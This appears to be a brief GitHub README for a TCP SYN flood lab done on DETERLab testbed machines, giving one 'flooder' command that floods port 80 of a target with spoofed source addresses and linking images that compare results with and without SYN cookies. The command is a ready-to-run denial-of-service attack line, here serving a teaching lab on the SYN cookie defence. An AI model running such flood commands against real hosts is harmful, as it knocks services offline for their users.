 # TCPSYNFloodAttack
Done using virtual machines in DETERLab

Attack Command:
sudo flooder --dst 5.6.7.8 --highrate 100 --proto 6 --dportmin 80 --dportmax 80 --src 1.1.2.4 --srcmask 255.255.255.0


![](https://github.com/jtyndale9/TCPSYNFloodAttack/blob/main/tcpwithcookies.png)


![](https://github.com/jtyndale9/TCPSYNFloodAttack/blob/main/tcpnocoodies.png)

